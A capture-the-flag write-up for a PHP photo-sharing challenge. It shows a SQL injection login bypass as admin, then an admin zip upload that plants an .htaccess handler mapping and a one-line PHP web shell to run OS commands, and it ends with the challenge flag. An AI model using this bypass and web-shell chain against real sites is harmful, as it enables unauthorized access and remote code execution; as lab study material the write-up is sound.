 # facegram
> This punk kid stole my idea for a photo sharing site! Can you break into it for me?

## About the Challenge
We were given a website without the source code, and this website has a lot of functionality

* View uploaded image (`/view.php?id=1`)
* View profile (`/user.php?id=1`)
* Login (`/login.php`)
* Register (`/register.php`)
* Forgot password (`/forgot-password.php`)
* Upload image (`/upload.php`)

![flag](images/preview.png)

## How to Solve?
Initially, I attempted to register and log in to my account, and then successfully uploaded a PHP file. However, when visiting the uploaded file at the `/uploads/` endpoint, the output showed `403 Forbidden`

![flag](images/user-upload.png)

I also tried to change the extension (Ex: .phar, .inc), the mime type, etc but it still doesn't works because the website will read my file as a plain text

![flag](images/testing-phar.png)

And then I attempted to exploit the website using SQL injection vulnerabilities on some endpoints but failed. Subsequently, I tried to perform SQL injection on the login page to log in as an `admin`, and it was successful. Here is the payload I used to login as an `admin`

```
username: admin' or true-- -
password: test
```

![flag](images/bypass-admin.png)

In the admin panel, there are two new features:

* Manage user
* Upload zip file

![flag](images/admin-panel.png)

![flag](images/zip-upload.png)

Hmmm, a `zip` file? I tried uploading a random zip file, and this feature will unzip our uploaded file, placing each file from the zip in the /uploads directory.

So I created a `.htaccess` file, and its content will look like this:

```
AddType application/x-httpd-php .php16
```

I also added another PHP file, but I'm using `.php16` as the extension.

```php
<?php echo system($_GET['cmd']); ?>
```

And heck yeah! we can execute OS command right now

![flag](images/flag.png)

```
flag{but_i_thought_zips_only_went_up}
```